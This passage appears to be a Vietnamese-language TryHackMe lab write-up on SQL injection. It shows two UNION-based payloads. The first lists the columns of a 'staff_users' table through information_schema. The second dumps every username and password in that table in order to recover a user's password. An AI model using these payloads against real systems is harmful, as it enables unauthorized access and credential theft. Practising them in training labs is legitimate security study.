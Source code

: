 ![img](https://github.com/DucThinh47/TryHackMe/blob/main/Web_Fundamental/Introduction_to_Web_Hacking/images/image151.png?raw=true)

Mục tiêu là mật khẩu của Martin 

=> Cần nghiên cứu tabe ***staff_users***

Thay đổi truy vấn thành:

    0 UNION SELECT 1,2,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'staff_users'

=> Lệnh đã trả về 3 cột cho bảng staff_users: ***id***, ***username*** và ***password***.

=> Tiếp theo, thay đổi lệnh thành:

    0 UNION SELECT 1,2,group_concat(username,':',password SEPARATOR '<br>') FROM staff_users

Tương tự, sử dụng ***group_concat*** để trả về tất cả row thành dạng 1 string và khiến nó dễ đọc hơn.

![img](https://github.com/DucThinh47/TryHackMe/blob/main/Web_Fundamental/Introduction_to_Web_Hacking/images/image152.png?raw=true)